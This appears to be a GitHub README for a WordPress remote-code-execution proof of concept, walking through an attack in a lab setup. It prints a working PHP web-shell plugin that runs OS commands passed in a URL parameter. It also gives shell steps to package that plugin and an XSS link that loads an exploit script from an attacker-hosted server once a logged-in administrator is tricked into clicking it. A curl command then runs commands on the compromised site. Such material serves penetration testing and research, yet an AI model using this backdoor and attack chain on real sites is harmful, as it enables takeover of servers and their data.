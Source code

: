 # [RCE] Install Plugin

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps
1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `WP_PoC.php`

    (`WP_PoC.php`)

    ```
    <?php
    /**
     * Plugin Name: WP RCE PoC - Install Plugin
     * Version: 1.0.0
     * Author: WP Admin
     * Author URI: https://localhost
     * License: GPL2
     */
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create WordPress plugin

    ```
    zip WP_PoC.zip WP_PoC.php
    ```

3. [create backdoored CMS module] base64-encode generated plugin file (**NOTE**: avoids encoding issues)

    ```
    cat WP_PoC.zip | base64 -w0 > WP_PoC.txt
    ```

4. [setup exploit] change payload variable values (`installPluginWP.js`)

    `pluginURL` - URL of WordPress plugin (containing backdoor) to be installed on target site

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

5. [setup exploit] setup web server (to serve the payload/plugin)

6. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

7. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/installPluginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

8. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.10/wp-content/plugins/WP_PoC/WP_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on name of installed module

9. [uninstall module] uninstall module via GUI

    *WordPress ➔ Plugins ➔ Installed Plugins ➔ [WP RCE PoC - Install Plugin] Delete ➔ OK*

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 8 from the "Exploitation Steps" chapter

![Image](screenshots/WordPress_-_install_plugin_-_1-1.png)
